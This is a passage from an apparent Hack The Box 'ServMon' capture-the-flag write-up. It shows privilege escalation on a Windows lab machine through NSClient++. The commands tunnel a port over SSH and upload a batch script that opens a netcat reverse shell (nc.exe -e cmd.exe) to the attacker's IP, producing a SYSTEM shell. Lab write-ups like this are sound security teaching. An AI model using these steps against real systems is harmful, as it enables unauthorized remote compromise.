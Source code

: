We use `netstat` to list all listening ports on the machine. We see port 8443 which wasn't shown in our `NMAP` scan because outside traffic is blocked. We try using `tasklist` to see what process is running on this port, but it's blocked. The `PowerShell` command `Get-Process` isn't blocked so we can still get the process name, `nscp`. This matches with `NSClient++` which we expected to see running on the machine.

```bash
luc@kali:~/HTB/ServMon$ sudo service ssh start
luc@kali:~/HTB/ServMon$ cp /usr/share/windows-resources/binaries/nc.exe .
luc@kali:~/HTB/ServMon$ sudo python2 /opt/impacket/examples/smbserver.py share `pwd` -smb2support
```

```bash
nadine@SERVMON C:\Users\Nadine\Downloads>copy \\10.10.14.16\share\nc.exe
        1 file(s) copied.

nadine@SERVMON Z:\>ssh -N -R 10.10.14.16:8443:127.0.0.1:8443 luc@10.10.14.16
```

We've now created a tunnel for port 8443 so we can access that port from our local machine, we also copied `nc.exe` to the target machine.

```bash
luc@kali:~/HTB/ServMon$ echo '@echo off' > evil.bat
luc@kali:~/HTB/ServMon$ echo 'C:\Users\Nadine\Downloads\nc.exe 10.10.14.16 443 -e cmd.exe' >> evil.bat
luc@kali:~/HTB/ServMon$ curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/check_new.bat --data-binary @evil.bat
Enter host password for user 'admin': ew2x6SsGTxjRwXOT
Added check_new as scripts\check_new.bat
```

The added task should now be visible in `https://localhost:8443/index.html#/queries/check_new`.

```bash
luc@kali:~/HTB/ServMon$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.184.
Ncat: Connection from 10.10.10.184:50123.
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system
C:\Program Files\NSClient++>cd \Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
29741f96************************
```

`NSClient++` is running as `nt authority\system` so we get a shell with those privileges and we can read the `root.txt` file.

## TL:DR

- Anonymous FTP access gave hints about where to find a password file
- Directory traversal in NVMS 1000 to show that password file
- SSH login as Nadine
- Start SSH tunnel to access NSClient++
- Add task to NSClient++ which runs as system
